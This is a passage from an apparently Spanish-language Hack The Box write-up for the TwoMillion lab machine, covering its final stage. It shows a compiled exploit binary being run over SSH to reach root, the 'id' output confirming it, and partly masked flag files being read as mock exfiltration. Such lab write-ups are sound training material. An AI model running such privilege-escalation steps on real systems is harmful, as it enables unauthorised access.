 ![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-28.png)

Ahora lo que tenemos que hacer es conectarnos con otra terminal con `SSH` y ejecutamos el binario que nos falta para finalmente obtener `root`:

```bash
./exp
```

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-29.png)

```bash
root@2million:/tmp/exploit# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```

Tras ejecutar el binario ya vemos que conseguimos `root`, por lo que ya tendríamos privilegios máximos en la máquina.

## Post-Explotación

En un entorno real, se realizarían otro tipo de tareas en esta fase. En este caso, lo que haremos será obtener las flags para simular una exfiltración de información:

```
cat user.txt 
b9723e*************************
```

```
root@2million:/root# cat root.txt 
1b03b1*************************
```

